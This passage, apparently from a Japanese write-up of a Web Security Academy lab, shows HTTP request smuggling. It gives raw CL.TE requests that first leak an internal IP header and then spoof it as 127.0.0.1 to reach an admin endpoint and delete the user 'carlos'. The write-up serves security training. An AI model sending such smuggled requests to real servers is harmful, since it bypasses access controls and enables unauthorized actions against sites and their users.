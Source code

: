![](./images/README_231016_193806.png)

うまく行っていそうです。

Content-Lengthを320くらいまでにするといい感じに情報が取得できます。

```text
POST / HTTP/1.1
Host: 0a65001703bbaaa2800735c900ba00c3.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 101
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 320

search=
```

結果を見るに、`X-jryLjZ-Ip: <redacted>`が追加されていそうです。

つまりこのように付け足してあげればこのラボはクリアできます。

```text
POST / HTTP/1.1
Host: 0a65001703bbaaa2800735c900ba00c3.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 151
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
X-jryLjZ-Ip: 127.0.0.1

search=
```